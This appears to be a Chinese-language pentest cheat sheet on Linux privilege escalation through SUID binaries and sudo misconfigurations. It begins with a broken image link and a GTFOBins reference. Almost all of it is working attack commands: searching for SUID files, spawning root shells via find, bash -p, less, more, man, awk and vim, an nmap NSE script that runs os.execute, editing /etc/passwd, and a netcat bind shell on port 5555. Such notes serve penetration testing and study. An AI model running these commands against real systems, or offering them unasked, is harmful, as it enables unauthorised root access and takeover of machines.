 # 提权查看
https://gtfobins.github.io/ 
# NFS提权
# suid提权
首先查看带有suid权限的文件

    find / -perm -u=s -type f>a.txt
    find / -perm -u=s -type f>a.txt
    find / -user root -perm -4000 -print 2>/dev/null
    find / -user root -perm -4000 -exec ls -ldb {} ;
查看有suid提权漏洞的文件，目前已知的可用来提权的linux可行性文件列表如下

    Nmap
    Vim
    find
    Bash
    More
    Less
    Nano
    cp

# 设置环境
    find / -name find | xargs ls -F
`查找后缀有*的可执行文件`

    chmod u+s /usr/bin/find
    ls -al /usr/bin/find
# find
    chmod +s /usr/bin/find
    find pentestlab -exec whoami \;
    find pentestlab -exec netcat -lvp 5555 -e /bin/sh \;
    find / -type f -name getflag -exec "whoami" \;
    find / -type f -name getflag -exec "/bin/sh" \;
    find . -exec '/bin/sh' \;
# bash
    chmod +s /bin/bash
    bash -p
# less
    chmod +s /bin/less
    less /etc/passwd
    !/bin/sh
# nmap
## 老版本
    chmod +s /usr/bin/nmap
    nmap --interactive
## 如果nmap不需要root密码即可执行
    sudo -l

如果发现(root)NOPASSWD:/usr/bin/nmap

    echo 'os.execute("/bin/sh")' > getShell.nse
    sudo -u root nmap --script=getShell.nse
# vim
## 1

    chmod +s /usr/bin/vim.basic
    vim /etc/passwd(改成跟root一样)
## 2(ubuntu16未成功)

    vim.tiny
    :set shell=/bin/sh
    :shell

# man(ubuntu16未成功)

    man passwd
    !/bin/bash
# more(ubuntu16未成功)

    more /etc/passwd
    !/bin/bash

# awk(ubuntu16未成功)

    awk 'BEGIN {system("/bin/bash")}'